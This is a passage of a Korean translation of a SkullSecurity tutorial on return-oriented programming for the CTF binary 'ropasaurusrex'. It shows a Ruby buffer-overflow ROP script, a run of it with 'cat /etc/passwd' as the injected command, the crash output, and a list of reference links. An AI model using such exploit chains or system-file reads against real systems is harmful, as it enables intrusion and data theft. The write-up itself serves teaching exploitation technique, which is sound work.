 ``` ruby
$ cat sploit.rb
require 'socket'

s = TCPSocket.new("localhost", 4444)

# The command we'll run
cmd = ARGV[0] + "\0"

# From objdump -x
buf = 0x08049530

# From objdump -D ./ropasaurusrex | grep read
read_addr = 0x0804832C
# From objdump -D ./ropasaurusrex | grep write
write_addr = 0x0804830C

# Generate the payload
payload = "A"*140 +
  [
    cmd.length, # number of bytes
    buf,        # writable memory
    0,          # stdin
    0x43434343, # read's return address

    read_addr # Overwrite the original return
  ].reverse.pack("I*") # Convert a series of 'ints' to a string

# Write the 'exploit' payload
s.write(payload)

# When our payload calls read() the first time, this is read
s.write(cmd)

# Clean up
s.close()
```


공격 대상에 실행해 봅시다.

``` sh
ron@debian-x86 ~ $ ruby sploit.rb "cat /etc/passwd"
```


그리고 크래시를 일으키는 걸 확인합니다.

``` sh
listening on [any] 4444 ...
connect to [127.0.0.1] from debian-x86.skullseclabs.org [127.0.0.1] 53456
Segmentation fault (core dumped)
```


`read()`의 반환 주소(`0x43434343`)에서 크래시를 일으켰고 명령어를 메모리
`0x08049530`에 썼다는 걸 확인합니다.


[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://wiki.skullsecurity.org/index.php/The_Stack
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump